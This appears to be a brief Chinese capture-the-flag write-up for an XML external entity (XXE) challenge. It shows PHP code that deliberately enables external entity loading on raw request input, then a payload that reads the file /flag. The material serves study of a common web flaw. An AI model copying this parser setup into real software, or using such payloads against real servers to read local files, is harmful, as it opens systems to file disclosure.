

# 知识点
```php
// 允许加载外部实体
libxml_disable_entity_loader(false);
// xml文件来源于数据流
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
  	// 加载xml实体，参数为替代实体、加载外部子集
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
  	// 把 DOM 节点转换为 SimpleXMLElement 对象
    $creds = simplexml_import_dom($dom);
  	// 节点嵌套
    $ctfshow = $creds->ctfshow;
    echo $ctfshow;
}

```
# 思路
```xml
<?xml version="1.0"?>
<!DOCTYPE payload [
<!ELEMENT payload ANY>
<!ENTITY xxe SYSTEM "file:///flag">
]>
<creds>
<ctfshow>&xxe;</ctfshow>
</creds>
```

